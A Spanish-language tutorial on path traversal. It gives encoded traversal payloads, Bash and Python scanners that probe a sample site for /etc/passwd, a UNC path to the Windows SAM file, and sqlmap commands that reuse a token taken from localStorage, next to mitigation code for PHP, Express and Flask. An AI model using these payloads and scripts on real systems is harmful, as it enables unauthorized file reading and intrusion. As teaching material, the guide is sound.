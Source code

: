 # Guía de Path Traversal y Seguridad Web

## Índice

1. [Introducción](#introducción)
2. [¿Qué es Path Traversal?](#qué-es-path-traversal)
3. [Vectores de Ataque](#vectores-de-ataque)
4. [Ejemplos de Explotación](#ejemplos-de-explotación)

   * Script Bash
   * Scanner en Python
5. [Prevención y Mitigación](#prevención-y-mitigación)

   * PHP
   * Node.js (Express)
   * Python (Flask)
6. [Técnicas Avanzadas y Payloads Extra](#técnicas-avanzadas-y-payloads-extra)
7. [Uso de sqlmap con localStorage/sessionStorage](#uso-de-sqlmap)
8. [Orden de Cookies (DVWA)](#orden-de-cookies)
9. [Detalles de la Query String](#detalles-de-la-query-string)
10. [Referencias](#referencias)

---

## 1. Introducción

El **path traversal** (o *directory traversal*) es una vulnerabilidad que permite a un atacante leer o incluir archivos fuera del directorio permitido por la aplicación. Está en el OWASP Top 10 como A01:2021 – Broken Access Control.

## 2. ¿Qué es Path Traversal?

Cuando una aplicación construye rutas a archivos usando entradas de usuario sin validarlas ni normalizarlas, un atacante puede inyectar `../` (en UNIX) o `..\` (en Windows) para "subir" en la jerarquía de carpetas.

```http
GET /vulnerable.php?file=../../../../etc/passwd HTTP/1.1
```

Este ataque expone información sensible, como `/etc/passwd`, o permite sobrescribir archivos.

## 3. Vectores de Ataque

* **Slash normal**: `../../etc/passwd`
* **URL-encoded**: `%2e%2e%2f%2e%2e%2fetc/passwd`
* **Barras invertidas (Windows)**: `..\\..\\windows\\system32\\drivers\\etc\\hosts`
* **Null byte**: `../../etc/passwd%00.jpg`
* **Overlong UTF-8**: `%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd`
* **Doble codificación**: `%252e%252e%252f%252e%252e%252fetc/passwd`
* **Separadores mixtos**: `..\/..\/etc/passwd`
* **Rutas absolutas disfrazadas**: `././././etc/passwd`
* **Parameter pollution**: `?file=good.html&file=../../etc/passwd`
* **Zip Slip**: entradas ZIP con `../../evil.sh`

## 4. Ejemplos de Explotación

### Script Bash

```bash
#!/usr/bin/env bash
TARGET="https://victima.com/descarga.php?file="
PAYLOADS=(
  "../../etc/passwd"
  "%2e%2e%2f%2e%2e%2fetc/passwd"
  "..\\..\\windows\\system32\\win.ini"
  "%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd"
)

for p in "${PAYLOADS[@]}"; do
  url="${TARGET}${p}"
  echo -n "Probando $p → "
  code=$(curl -s -o /dev/null -w "%{http_code}" "$url")
  if [ "$code" -eq 200 ]; then
    echo "¡ÉXITO!"
    curl -s "$url" | head -n 10
    break
  else
    echo "Falló ($code)"
  fi
done
```

### Scanner en Python

```python
import requests

base = "https://victima.com/descarga.php"
param = "file"
for depth in range(1, 11):
    payload = "../" * depth + "etc/passwd"
    r = requests.get(base, params={param: payload})
    if r.status_code == 200 and "root:" in r.text:
        print(f"[+] Vulnerable con {depth} niveles: {r.url}")
        print(r.text.splitlines()[:5])
        break
    else:
        print(f"[-] {depth} niveles → {r.status_code}")
```

## 5. Prevención y Mitigación

### PHP

```php
<?php
function safeInclude($baseDir, $userInput) {
    $file = realpath($baseDir . DIRECTORY_SEPARATOR . $userInput);
    if ($file === false || strpos($file, $baseDir) !== 0) {
        http_response_code(403);
        die('Acceso denegado');
    }
    include $file;
}

safeInclude('/var/www/html/templates', $_GET['tpl']);
?>
```

### Node.js (Express)

```javascript
const express = require('express');
const path = require('path');
const app = express();
const BASE_DIR = path.join(__dirname, 'public');

app.get('/download', (req, res) => {
  const file = req.query.file;
  const filePath = path.normalize(path.join(BASE_DIR, file));
  if (!filePath.startsWith(BASE_DIR)) {
    return res.status(403).send('Access denied');
  }
  res.sendFile(filePath, err => {
    if (err) res.status(404).send('Not found');
  });
});

app.listen(3000);
```

### Python (Flask)

```python
from flask import Flask, abort, send_from_directory
import os

app = Flask(__name__)
BASE_DIR = '/var/www/files'

@app.route('/files/<path:filename>')
def serve_file(filename):
    safe_path = os.path.normpath(os.path.join(BASE_DIR, filename))
    if not safe_path.startswith(os.path.abspath(BASE_DIR)):
        abort(403)
    return send_from_directory(BASE_DIR, filename)

app.run()
```

## 6. Técnicas Avanzadas y Payloads Extra

* Null byte: `../../etc/passwd%00.jpg`
* Doble codificación: `%252e%252e%252f%252e%252e%252fetc/passwd`
* Unicode dotless: usar `U+FF0E` en lugar de `.`
* UNC paths en Windows: `\\127.0.0.1\c$\windows\system32\config\SAM`
* Bypass de check de extensión: `../../passwd.ny` o `../../passwd%2e`

## 7. Uso de sqlmap

* Extrae valor: `token = localStorage.getItem('authToken')`
* Inyéctalo como cookie:

  ```bash
  sqlmap -u "https://victima.com/vuln.php?id=1" --cookie="authToken=$token" -p id
  ```
* O como header:

  ```bash
  sqlmap -u "https://victima.com/vuln.php?id=1" --headers="Authorization: Bearer $token" -p id
  ```
* O en URL GET/POST: `?sess=$sessionValue`

## 8. Orden de Cookies

En DVWA:

```http
Cookie: PHPSESSID=abcd1234; security=low
```

Primero `PHPSESSID`, luego `security=low`.

## 9. Detalles de la Query String

```http
/vulnerabilities/sqli/?id=1&Submit=Submit#
```

* `?id=1`: parámetro de inyección
* `&Submit=Submit`: simula botón de envío
* `#`: fragmento de página (no enviado al servidor)

## 10. Referencias

* OWASP Top Ten: [https://owasp.org/www-project-top-ten/](https://owasp.org/www-project-top-ten/)
* Wikipedia: [https://es.wikipedia.org/wiki/Path\_traversal](https://es.wikipedia.org/wiki/Path_traversal)
* sqlmap: [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)
* Snyk Security: [https://security.snyk.io/](https://security.snyk.io/)


***
sualba.dev © 2025 Todos los derechos reservados
